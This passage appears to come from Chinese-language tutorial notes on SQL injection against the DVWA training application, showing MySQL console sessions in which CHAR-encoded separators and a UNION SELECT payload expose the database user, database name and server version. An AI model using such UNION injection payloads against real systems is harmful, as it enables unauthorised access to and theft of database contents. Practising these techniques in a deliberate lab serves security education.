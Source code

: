 ```
|  :             |
+----------------+
1 row in set (0.00 sec)
```

- CHAR(32)=空格

- CHAR(32,58,32)=空格:空格


```
mysql> select ASCII('|');
+------------+
| ASCII('|') |
+------------+
|        124 |
+------------+
1 row in set (0.00 sec)

mysql>
```

mysql中的查询结果

```
mysql> SELECT first_name, last_name FROM users WHERE user_id =1;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

mysql>
```

```
mysql> SELECT 1,CONCAT_WS(CHAR(124),user(),database(),version());
+---+---------------------------------------------------+
| 1 | CONCAT_WS(CHAR(124),user(),database(),version())  |
+---+---------------------------------------------------+
| 1 | root@localhost|dvwacn|5.5.41-0ubuntu0.14.04.1-log |
+---+---------------------------------------------------+
1 row in set (0.00 sec)

mysql>
```

- user_id = '1'

```
mysql> SELECT first_name, last_name FROM users WHERE user_id = '1' UNION SELECT 1,CONCAT_WS(CHAR(124),user(),database(),version());
+------------+---------------------------------------------------+
| first_name | last_name                                         |
+------------+---------------------------------------------------+
| admin      | admin                                             |
| 1          | root@localhost|dvwacn|5.5.41-0ubuntu0.14.04.1-log |
+------------+---------------------------------------------------+
2 rows in set (0.00 sec)

mysql>
```
